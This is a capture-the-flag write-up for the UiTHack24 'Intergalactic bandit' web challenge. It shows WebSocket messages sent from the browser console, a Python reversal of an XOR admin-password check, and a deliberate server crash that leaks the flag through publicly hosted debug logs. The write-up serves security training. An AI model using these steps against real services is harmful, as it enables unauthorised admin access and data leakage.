

# Intergalactic bandit

The neighbouring aliens have been enjoying the classical One Armed Bandit at the casino. However, they can't seem to win anything. Can you show them how?

https://uithack.td.org.uit.no:8888

[⬇️ app.py](./app.py)

# Writeup

It seems like everything need to be happening at websocket. I did a quick google to find a method to be able to re-use the same websocket as the tab I have open. (This was after all not nessesary but it worked to get the flag).

Basically run `queryObjects(WebSocket)` in the terminal it will list all connected websockets. Then right click the one and `Store as global variable`.

You can now use `temp1` to get the socket.



I crafted a message which was sent when I pressed the spin button as a POC:

```javascript
temp1.send('{"type": "spin"}')
```

Now I looked and saw a lot of other commands I could send in [app.py](./app.py). I saw that I could login as admin and it validated the password with the below script:

```python
def verify_admin(pswd: str) -> bool:
    if len(pswd) == 0:
        return False

    p = bytearray(pswd, "utf-8")
    x = bytearray("*" * len(pswd), "utf-8")
    for i in range(len(pswd)):
        x[i] = (p[i] ^ i) ^ x[i]

    return x == b"B^F]K]\x1e"
```

Reversing this to get the password was simple enought as it is `XOR` and fully reversible. So I reversed this with this:

```python
enc = b"B^F]K]\x1e"
key = bytearray("*" * len(enc), "utf-8")
for i in range(len(enc)):
  key[i] = ((enc[i] ^ i) ^ key[i])

print(key)
```

which yielded `hunter2`. After that I could login as admin with the password `hunter2` and get the flag set in my session. This gives me nothing yet but the session is printed to a [log file](./app.py#L281) on every exception as long as debugging is on. And logfiles are hosted under `/logs/<uuid>`. Sending a `type` of `motherload` with no parameters will make the program crash and `info` will show the `session_id` which is the name of the log file.

```javascript
temp1.send('{"type": "login", "password": "hunter2"}')
temp1.send('{"type": "flag"}')
temp1.send('{"type": "debug"}')
temp1.send('{"type": "motherload"}')
temp1.send('{"type": "info"}')
```

shows this in websocket:

```json
> {"type": "login", "password": "hunter2"}
< {"message": "Logged in", "type": "admin"}
> {"type": "flag"}
> {"type": "debug"}
< {"message": "Debug mode enabled", "type": "admin"}
> {"type": "motherload"}
< {"message": "Don't be mean to the server, it got feelings 2 :(", "type": "error"} 
> {"type": "info"}
< {"coins": 200, "flag_price": 10000, "session_id": "99ec6252-6f4f-457c-8d14-fb5095c76399", "spin_cost": 20, "type": "info", "win_payout": 100}
```

Opening `https://uithack.td.org.uit.no:8888/logs/99ec6252-6f4f-457c-8d14-fb5095c76399` now shows:

```log
99ec6252-6f4f-457c-8d14-fb5095c76399 INFO New WS connection from ('192.168.208.2', 48126), assigned session id: 99ec6252-6f4f-457c-8d14-fb5095c76399
99ec6252-6f4f-457c-8d14-fb5095c76399 INFO Admin logged in, welcome back me! addr="('192.168.208.2', 48126)"
99ec6252-6f4f-457c-8d14-fb5095c76399 DEBUG request: {'type': 'motherload'}
99ec6252-6f4f-457c-8d14-fb5095c76399 DEBUG User state: session={'id': '99ec6252-6f4f-457c-8d14-fb5095c76399', 'addr': "('192.168.208.2', 48126)", 'coins': 200, 'admin': True, 'flag': 'UiTHack24{Passw0rd_1s_*******}'}
99ec6252-6f4f-457c-8d14-fb5095c76399 ERROR Error from addr="('192.168.208.2', 48126)":
Traceback (most recent call last):
  File "/app/bandit/app.py", line 254, in connect
    if session.get("admin", False) and verify_knowledge(msg["password"]):
                                                        ~~~^^^^^^^^^^^^
KeyError: 'password'
99ec6252-6f4f-457c-8d14-fb5095c76399 DEBUG request: {'type': 'info'}
```

And the flag is `UiTHack24{Passw0rd_1s_*******}`.